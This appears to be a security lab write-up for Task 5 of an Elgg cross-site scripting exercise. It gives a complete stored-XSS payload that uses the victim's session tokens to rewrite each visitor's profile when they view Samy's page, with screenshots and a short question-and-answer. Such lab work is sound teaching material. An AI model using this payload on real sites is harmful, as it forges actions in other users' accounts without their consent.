 ## Task 5: Modifying the Victim’s Profile

**Objective:** Write an XSS worm to modify the visitor's profile when they view Samy's page.

**Steps:**
- Use the HTTP Header Live add-on to inspect the HTTP POST request sent when modifying a profile.
- In the "About Me" section, enter the following JS code with the appropriate HTTP request content constructed.
```HTML
<script type="text/javascript">
        window.onload = function() {
            var userName = "&name=" + elgg.session.user.name;
            var guid = "&guid=" + elgg.session.user.guid;
            var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
            var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
        
            var description = "&description=Samy is my hero";
        
            var otherFields = "&accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2"
        
            var content = token + ts + userName + description + otherFields + guid;
        
            var samyGuid = 47;
        
            var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
        
            if (elgg.session.user.guid != samyGuid) {
                var Ajax = null;
                Ajax = new XMLHttpRequest();
                Ajax.open("POST", sendurl, true);
                Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
                Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
                Ajax.send(content);
            }
        }
    </script>
```

![Script Injection](images/T5/injectjs.png)
*Script Injection*

![Initial About Me description of Alice](images/T5/aliceinitial.png)
*Initial About Me description of Alice*

![Visiting Samy's profile](images/T5/visitingsamy.png)
*Visiting Samy's profile*

![About Me of Alice changed after visiting](images/T5/alicehacked.png)
*About Me of Alice changed after visiting*

**Observation:**  When another user views Samy's profile, the malicious JavaScript code is executed, and the visitor's profile is modified.

### Questions

1. **Question 3:** Why do we need Line 1? Remove this line, and repeat your attack. Report and explain your observation.
    - The line is needed to prevent the code from modifying Samy's own profile, which could lead to an infinite loop. Removing this line causes Samy's profile to be continuously modified when viewed.